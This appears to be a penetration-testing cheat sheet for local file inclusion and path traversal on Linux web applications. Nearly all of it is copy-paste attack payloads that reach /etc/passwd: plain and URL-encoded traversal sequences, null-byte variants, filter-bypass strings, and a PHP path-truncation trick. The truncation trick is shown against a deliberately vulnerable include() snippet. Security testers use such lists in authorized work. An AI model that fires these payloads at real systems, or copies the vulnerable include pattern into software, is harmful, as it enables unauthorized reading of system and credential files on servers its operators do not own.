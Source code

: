 # LFI-Cheat-sheet - LINUX 
-------------------

**Quick Copy-Pastes:**

../
../../
../../../
../../../../
../../../../../
../../../etc/passwd
%2E%2F - Single URL Encode ./
%252E%252F - Double URL Encode ./
%2E%2E%2F - Single URL Encoded ../
%252E%252E%252F - Double URL Encoded ../
%2E%2E%2E%2E%2F%2F - Single URL Encode ....//

**traversal sequence stripped:**
....//....//....//etc/passwd
....\/....\/....\/etc/passwd
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

**Null Byte variations:**
%00
%00%00
%2500 - URL Encoded
 

**URL Encoded:**
..%252f..%252f..%252fetc%252fpasswd - double encode
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
%252e%252e%252fetc%252fpasswd
%252e%252e%252fetc%252fpasswd%00

**Traversal from existent folder:**
utils/scripts/(Any suspected path)../../../../../etc/passwd

**Truncated paths -** PHP will drop anything after 4096 bytes.
assuming a php code that tries to append ".php" to the included parameter, truncated path can be used
to forcefully ommit ".php" from the parameter to allow path traversal with a normal path, ex: /etc/passwd
<?php
include("includes/".$_GET['param1'].".php");
?>
ex:../../../etc/passwd../././././././<x4096 repetitions of "./"> .php  >> ".php" will be dropped might by pass the above code.
./ - can be substitued with other symbols or dots.

**Filter Bypass Tricks:**
....//....//etc/passwd
..///////..////..//////etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/var/www/../../etc/passwd





